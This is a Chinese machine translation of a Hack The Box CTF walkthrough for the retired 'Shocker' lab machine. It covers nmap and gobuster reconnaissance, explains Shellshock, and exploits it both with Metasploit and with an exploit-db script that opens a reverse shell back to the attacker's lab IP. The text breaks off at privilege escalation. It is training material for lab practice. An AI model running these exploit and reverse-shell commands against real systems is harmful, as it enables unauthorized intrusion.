# 保持冷静，黑掉盒子——修卡

> 原文：<https://www.freecodecamp.org/news/keep-calm-and-hack-the-box-shocker/>

黑客盒子(HTB)是一个在线平台，让你测试你的渗透测试技能。

它包含几个不断更新的挑战。有些是模拟真实世界的场景，有些更倾向于 CTF 风格的挑战。

********注****:********只允许对退役的 HTB 机器进行补录。*T13***



修卡展示了著名的 Shellshock 漏洞攻击的严重性，它影响了数百万面向公众的服务器。

我们将使用以下工具将机器典当到一个 [Kali Linux 机器](https://www.kali.org/)上:

*   nmap
*   gobuster
*   卷曲
*   searchsploit
*   metasploit

让我们开始吧。

首先，我在/etc/hosts 文件中添加了**修卡**。

```
nano /etc/hosts
```

随着

```
10.10.10.56     shocker.htb
```



## ******第一步——侦察******

开发一台机器的第一步是做一些扫描和侦察。

这是最重要的部分之一，因为它将决定你以后可以尝试利用什么。在这个阶段花更多的时间来获取尽可能多的信息总是更好的。

### **端口扫描**

我会用********Nmap********(网络映射器)。Nmap 是一个用于网络发现和安全审计的免费开源工具。

它使用原始 IP 数据包来确定网络上有哪些主机可用、这些主机提供什么服务、它们运行什么操作系统、使用什么类型的包过滤/防火墙以及许多其他特征。

这个工具有许多命令可以用来扫描网络。如果你想了解更多，你可以看一下文档[这里](https://tools.kali.org/information-gathering/nmap)。



我使用以下命令来执行密集扫描:

```
nmap -A -v shocker.htb
```

********-A:********启用操作系统检测、版本检测、脚本扫描和跟踪路由

********-v:********增加冗长等级

**震惊者 ******。htb:******** 修卡盒子的主机名

如果你觉得这个结果有点令人难以置信，你可以试试这个:

```
nmap shocker.htb
```



我们可以看到有两个开放的端口，包括:

********端口**** 80**** ，最常被超文本传输协议使用

**端口 2222** ，用于 IO 数据的以太网/IP 隐式消息

## **目录扫描**

我用的是****Gobuster**T3。Gobuster 是一个用 Go 编写的目录扫描器。更多关于工具[的信息请点击](https://tools.kali.org/web-applications/gobuster)。**

Gobuster 使用位于********/usr/share/word lists********目录中的 Kali 上的单词表。我用的是来自 ****dirb**** 和 ****dirbuster**** 的词表，但是你可以从****sec lists****[这里](https://github.com/danielmiessler/SecLists)下载更多词表



我对 dirb common.txt 单词表使用以下命令:

```
gobuster dir -u shocker.htb -w /usr/share/wordlists/dirb/common.txt
```

有几个很棒的发现，包括 **/cgi-bin/** 。我做了另一个目录扫描，重点是常见的扩展名(cgi、sh、pl 和 py):

```
gobuster dir -u shocker.htb/cgi-bin -w /usr/share/worldlists/dirb/common.text -x cgi,sh,pl,py
```



我发现 **/user.sh** 有些有趣的地方。

## ******步骤 2 -** 了解 Shellshock 漏洞****

在侦察阶段，我决定从 80 端口开始。我看到了这一页。



没什么帮助。

我翻开页面，可以看到脚本正在运行。

```
curl shocker.htb/cgi-bin/user.sh
```



我围绕机器名和 Linux 开发系统做了一些研究，发现了 [Shellshock](https://en.wikipedia.org/wiki/Shellshock_(software_bug)) 漏洞。

> **Shellshock** ，也被称为 **Bashdoor** ，是 [Unix](https://en.wikipedia.org/wiki/Unix) [Bash](https://en.wikipedia.org/wiki/Bash_(Unix_shell)) 外壳中的一个安全漏洞家族，第一个于 2014 年 9 月 24 日被披露。Shellshock 可以让攻击者让 Bash 执行任意命令，并获得对许多面向互联网的服务的未授权访问，例如使用 Bash 处理请求的 web 服务器

Shellshock 依赖于这样一个事实，即 Bash 在导入存储在环境变量中的函数定义时会执行尾随命令。

由于这些环境变量在执行前没有经过适当的清理，攻击者可以通过 HTTP 请求向服务器发送命令，并通过 web 服务器的操作系统执行这些命令。

## 为什么这种攻击会奏效？

当攻击者修改原始 HTTP 请求以包含以下字符串时，就会发生 shell shock:`() { :; };`。Bash 有处理以这种模式开始的变量的特殊规则，并将它解释为需要执行的命令。

你可以在**国家漏洞数据库**上了解更多信息



[https://nvd.nist.gov/vuln/detail/CVE-2014-6271#vulnCurrentDescriptionTitle](https://nvd.nist.gov/vuln/detail/CVE-2014-6271)

或者看看这个关于这个话题的演示



[https://owasp.org/www-pdf-archive/Shellshock_-_Tudor_Enache.pdf](https://owasp.org/www-pdf-archive/Shellshock_-_Tudor_Enache.pdf)

F5 也写了一篇关于这个漏洞的文章


https://f5.com/solutions/mitigation/mitigating-the-bash-shellshock-cve-2014-6271-and-cve-2014-7169-vulnerabilities

## ******第三步**** 第一步****——利用** Bashdoor 与****

我们将使用********Metasploit********，这是一个让黑客攻击变得简单的渗透测试框架。这是许多攻击者和防御者的必备工具。



[https://www.metasploit.com/](https://www.metasploit.com/)

我在 Kali 上启动了 ********Metasploit 框架******** ，并寻找我应该用于利用漏洞的命令。

使用以下命令启动 Metasploit 时，不要忘记更新它:

```
msfupdate
```

您还可以使用辅助工具在 Metasploit 上检查目标是否容易受到 Shellshock 的攻击。用这个命令开始:

```
search shellshock
```



然后

```
use 0
```

选择

```
auxiliary/scanner/http/apache_mod_cgi_bash_env
```



您可以使用检查选项

```
show options
```

用...设定 RHOSTS

```
set RHOSTS shocker.htb
```

并将 TARGETURI 设置为

```
set TARGETURI /cgi-bin/user.sh
```

然后使用以下命令运行辅助程序

```
check
```

主机很可能容易受到 Shellshock 的攻击！

现在让我们用以下命令来检查漏洞

```
use 5
```

或者命令

```
exploit/multi/http/apache_mod_cgi_bash_env_exec
```

我设置了 RHOSTS、TARGETURI 和 LHOST——我的是 10.10.14.28。你需要用你自己的主机来设置它。你可以在这里查看你的[。](https://www.hackthebox.eu/home/htb/access)



我检查选项，看看是否一切都设置正确。



然后，我使用

```
run
```


我得到一个 ****更喜欢**** 的会话。

下面是来自[攻击性安全](https://www.offensive-security.com/metasploit-unleashed/meterpreter-basics/)的 Meterpreter 的定义:

> Meterpreter 是一个高级的、可动态扩展的有效负载，它使用 ****内存中的**** DLL 注入阶段，并在运行时通过网络进行扩展。它通过 stager 套接字进行通信，并提供全面的客户端 Ruby API。它具有命令历史，标签完成，渠道，等等。

你可以在这里阅读更多关于 Meterpreter [的内容。](https://www.offensive-security.com/metasploit-unleashed/about-meterpreter/)

让我们从收集一些信息开始。

********getuid********返回调用进程的真实用户 id。



## ******步****3b****——剥削** Bashdoor** 无 **Metasploit****

我使用********Searchsploit********来检查是否有已知的漏洞利用。Searchsploit 是一个用于[漏洞数据库](https://www.exploit-db.com/)的命令行搜索工具。

我使用以下命令:

```
searchsploit shellshock
```



我通过以下方式获得了漏洞利用的更多详细信息:

```
searchsploit -x 34900.py
```



还可以查看 ********漏洞利用数据库******** 来查找同样的漏洞利用。



[https://www.exploit-db.com/exploits/34900](https://www.exploit-db.com/exploits/34900)

我通过以下方式获得更多信息:

```
searchsploit -p 34900.py
```



我可以在我的卡利盒上看到它的位置。我将文件复制到我的修卡文件夹中

```
cp /usr/share/exploitdb/exploits/linux/remote/34900.py .
```

并检查它是否已被复制到该文件夹中

```
ls -la
```



然后，我用

```
python 34900.py payload=reverse rhost=shocker.htb lhost=10.10.14.4 lport=1234 pages=/cgi-bin/user.sh
```

对于 TCP 反向 shell，我将有效负载设置为 reverse，这需要设置 rhost、lost 和 lport。



我得到一个贝壳！

## **************步****4****-********寻找用户. txt 标志******

我从 ****主页**** 导航到**雪莉**文件夹。

我可以使用以下命令列出所有文件/文件夹:

```
ls -la
```

我随后将 ****移至**** 文件夹下

```
cd home
```



我找到了用户标志！我用检查文件的内容

```
cat user.txt
```

## **************第五步-******** 寻找根. txt 标志******

我试着导航到根文件夹。访问被拒绝。我们需要进行权限升级。

